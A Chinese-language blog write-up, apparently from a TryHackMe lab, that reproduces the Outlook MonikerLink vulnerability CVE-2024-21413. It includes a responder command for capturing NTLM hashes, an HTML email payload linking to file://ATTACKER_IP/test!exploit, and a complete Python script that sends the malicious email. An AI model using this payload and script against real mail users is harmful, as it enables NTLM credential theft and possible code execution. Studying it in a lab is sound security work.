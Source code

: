 ```yaml
---
layout: post
title: Microsoft Outlook RCE CVE-2024–21413 复现
date: '2024-02-28 04:38:40'
tags:
- writeup
- cve
---
```


## 漏洞信息

CVE-2024-21413 是 Microsoft Outlook 中发现的一个重大安全漏洞，CVSS 为 9.8。该漏洞被称为 `#MonikerLink` 错误，具有深远的影响，包括本地 NTLM 信息的潜在泄漏和远程代码执行。此外，它还强调了可以绕过 Office Protected View，从而将其威胁扩展到其他 Office 应用程序。

## 漏洞利用

1. Outlook 可以解析 HTML
2. Outlook 可以解析超链接
3. Outlook 可以通过名字链接打开指定应用程序的 URL
4. 当邮件中的链接需要启动外部应用程序时，Outlook 的“受保护的视图”功能会被激活
5. 漏洞利用超链接中的 `file://MonikerLink` 尝试访问网络共享上的文件时，出现漏洞。
6. 可以通过修改带 `!` 的超链接来利用该漏洞 `<a href="file://ATTACKER_IP/test!exploit">Click me</a>`

### 攻击过程

**攻击者**启动恶意服务接收 NTLM Hash

    sudo responder -I eth0
    

![](assets/img/blog/imported/microsoft-outlook-rce-cve-2024-21413-CleanShot-2024-02-28-at-14.34.23.png)
**攻击者**发送恶意邮件

    <html lang="en">
        <p><a href="file://ATTACKER_IP/test!exploit">Click me</a></p>
        </body>
    </html>
    

附发送邮件脚本如下：

    '''
    Author: CMNatic | https://github.com/cmnatic
    Version: 1.0 | 19/02/2024
    '''
    
    import smtplib
    from email.mime.text import MIMEText
    from email.mime.multipart import MIMEMultipart
    from email.utils import formataddr
    
    sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
    receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
    password = input("Enter your attacker email password: ")
    html_content = """\
    <!DOCTYPE html>
    <html lang="en">
        <p><a href="file://ATTACKER_IP/test!exploit">Click me</a></p>
    
        </body>
    </html>"""
    
    message = MIMEMultipart()
    message['Subject'] = "CVE-2024-21413"
    message["From"] = formataddr(('CMNatic', sender_email))
    message["To"] = receiver_email
    
    # Convert the HTML string into bytes and attach it to the message object
    msgHtml = MIMEText(html_content,'html')
    message.attach(msgHtml)
    
    server = smtplib.SMTP('MAILSVERIP', 25)
    server.ehlo()
    try:
        server.login(sender_email, password)
    except Exception as err:
        print(err)
        exit(-1)
    
    try:
        server.sendmail(sender_email, [receiver_email], message.as_string())
        print("\nEmail delivered")
    except Exception as error:
        print(error)
    finally:
        server.quit()
    

**受害者**接收到邮件，无安全提示
![](assets/img/blog/imported/microsoft-outlook-rce-cve-2024-21413-CleanShot-2024-02-28-at-12.34.21.png)
**受害者**点击，**攻击者**接收到数据
![](assets/img/blog/imported/microsoft-outlook-rce-cve-2024-21413-CleanShot-2024-02-28-at-12.33.48.png)
